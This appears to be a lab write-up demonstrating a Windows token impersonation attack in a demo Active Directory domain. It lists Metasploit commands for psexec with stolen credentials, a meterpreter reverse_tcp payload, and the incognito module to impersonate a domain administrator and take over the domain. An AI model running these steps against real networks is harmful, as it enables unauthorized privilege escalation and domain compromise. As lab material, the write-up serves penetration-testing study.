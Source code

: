 # Token Impersonation Attack LAB DEMO

Token Impersonation is a Post- compromise attack which can be used for lateral movement or domain escalation. This attack scenario will demonstrate how attackers can use these token of privileged users like ADMIN to escalate their domain privileges.
<br>Imagine we have two machines, one user machine (BATMAN) and one Domain Controller (JUSTICE-DC). and as an attacker we managed to compromise one of the user machines (BATMAN) and now we have local admin privileges. <br>
Now we can perform a Post-compromise enumeration using tools like `Bloodhound` and **identify active sessions of privileged users.**
<br>Now Imagine a Domain Admin `HERO/Administrator` logged into to `BATMAN`. Since we have a DOMAIN ADMIN session on our compromised computer, we can list the available tokens and use them to impersonate ADMINISTRATOR using a tool called `incognito` from Metasploit.

#### ATTACK METHODOLOGY:

1. First We need to connect to the machine using the `psexec` module using the compromised username and password.

```bash
msfconsole                           #Starts Metasploit
use exploit/windows/smb/psexec       #Loads psexec module
```

2. Then we need to set all the necessary options like RHOST, username password, domain, targets etc.. and run. This will generate a `meterpreter` session.

```
set RHOST "REMOTE HOST IP"
set SMBDomain "TARGET DOMAIN NAME"
set SMBUser "COMPROMISED USER NAME"
set SMBPass "COMPROMISED USER PASSWORD"
set payload /windows/x64/meterpreter/reverse_tcp
```

![[metershell 1.png]]
<br>
3. Now load the `incognito` module using `load incognito` command. This module has commands which lists all the available tokens which can be later used for impersonation.

```bash
load incognito

list_tokens -u
```

![[loadincognoto 1.png]]

4. We have a delegation token for the ADMINISTRATOR. This means that the domain admin of `HERO.local` had logged into `BATMAN` at some point using their credentials. 

5. To take advantage of the this token, we will run the `impersonate_token `command with the domain admin name `HERO\Administrator` to impersonate their account.

```bash
impersonate_token HERO\\Administrator
```

![[Adminshell 1.png]]

Now we have an DOMAIN ADMIN shell session on `BATMAN` machine !!!  Now we can use this session to perform actions that require elevated privileges like making changes to the domain. Adding a new user, adding user to ADMIN group

